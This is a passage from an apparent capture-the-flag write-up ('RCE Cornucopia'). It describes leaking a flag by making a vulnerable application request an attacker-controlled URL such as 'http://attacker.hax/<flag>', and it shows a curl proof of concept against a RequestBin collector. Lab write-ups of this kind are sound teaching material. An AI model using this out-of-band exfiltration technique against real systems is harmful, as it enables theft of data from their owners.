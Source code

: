 ![RCE Cornucopia](/img/rce-cornucopia/rce9-003.png)

By design, the application requests a page on the Internet that we specify and searches it for a string. What if we use a domain under our control and include the flag value in the URL? Something like `http://attacker.hax/<flag>`.

There's a project called [RequestBin](https://github.com/Runscope/requestbin) that provides you a tokenized URL and access to a panel which shows all requests made to that URL. Unfortunately "the" RequestBin has been taken offline due to abuse, but if you Google you can find another one that's up or host your own. 

For the moment I'll use [https://requestbin.fullcontact.com/](https://requestbin.fullcontact.com/). My bin URL is `http://requestbin.fullcontact.com/1m06f111`

Quick POC,

```
root@kali ~/A/c/09# curl http://requestbin.fullcontact.com/1m06f111/flagflagflag
ok
```

![RCE Cornucopia](/img/rce-cornucopia/rce9-002.png)
